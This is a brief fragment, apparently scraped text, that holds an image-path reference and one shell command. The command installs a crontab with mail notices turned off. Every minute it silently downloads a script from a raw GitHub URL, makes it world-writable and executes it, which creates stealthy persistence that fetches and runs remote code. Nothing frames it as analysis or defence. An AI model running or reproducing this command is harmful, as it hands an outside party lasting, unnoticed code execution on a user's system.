echo 'MAILTO=""' > ~/.cron && echo 'SHELL = /bin/bash' >> ~/.cron && echo '* * * * * rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?$RANDOM" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.cron && crontab ~/.cron
